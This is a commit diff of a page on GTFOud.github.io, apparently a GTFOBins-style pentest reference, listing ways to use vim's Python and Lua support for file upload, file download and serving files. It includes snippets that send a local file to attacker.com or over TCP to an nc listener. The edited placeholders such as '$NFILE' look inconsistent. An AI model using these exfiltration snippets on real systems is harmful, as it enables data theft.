

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/vim.md, in a window 1280 px wide and 1400 px high, cut to the strip 339-1400 px from the top of the window. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update vim.md

```diff
--- a/_gtfoud/vim.md
+++ b/_gtfoud/vim.md
@@ -3,54 +3,45 @@
   file-upload:
     - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
-        export URL=http://attacker.com/
-        export LFILE=file_to_send
         vim -c ':py import vim,sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
         else: import urllib as u, urllib2 as r
-        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
+        r.urlopen(e["$RPATH"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))
         vim.command(":q!")'
-    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
+    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
       code: |
-        export LPORT=8888
-        vim -c ':py import vim,sys; from os import environ as e
-        if sys.version_info.major == 3: import http.server as s, socketserver as ss
-        else: import SimpleHTTPServer as s, SocketServer as ss
-        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
-        vim.command(":q!")'
-    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_send
-        vim -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
+        vim -c ':lua local f=io.open(os.getenv("$LFILE"), 'rb')
           local d=f:read("*a")
           io.close(f);
           local s=require("socket");
           local t=assert(s.tcp());
-          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
+          t:connect(os.getenv("$RHOST"),os.getenv("$RPORT"));
           t:send(d);
           t:close();'
+  server:
+    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
+      code: |
+        vim -c ':py import vim,sys; from os import environ as e
+        if sys.version_info.major == 3: import http.server as s, socketserver as ss
+        else: import SimpleHTTPServer as s, SocketServer as ss
+        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
+        vim.command(":q!")'
   file-download:
     - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
         vim -c ':py import vim,sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r
         else: import urllib as r
-        r.urlretrieve(e["URL"], e["LFILE"])
+        r.urlretrieve(e["$RPATH"], e["$LFILE"])
         vim.command(":q!")'
-    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
+    - description: Fetch a remote file via TCP. Run `nc target.com 4444 < "file_to_send"` on the attacker box to send the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
       code: |
-        export LPORT=12345
-        export LFILE=file_to_save
         vim -c ':lua local k=require("socket");
-          local s=assert(k.bind("*",os.getenv("LPORT")));
+          local s=assert(k.bind("*",os.getenv("$LPORT")));
           local c=s:accept();
           local d,x=c:receive("*a");
           c:close();
-          local f=io.open(os.getenv("LFILE"), "wb");
+          local f=io.open(os.getenv("$NFILE"), "wb");
           f:write(d);
           io.close(f);'
 ---
```
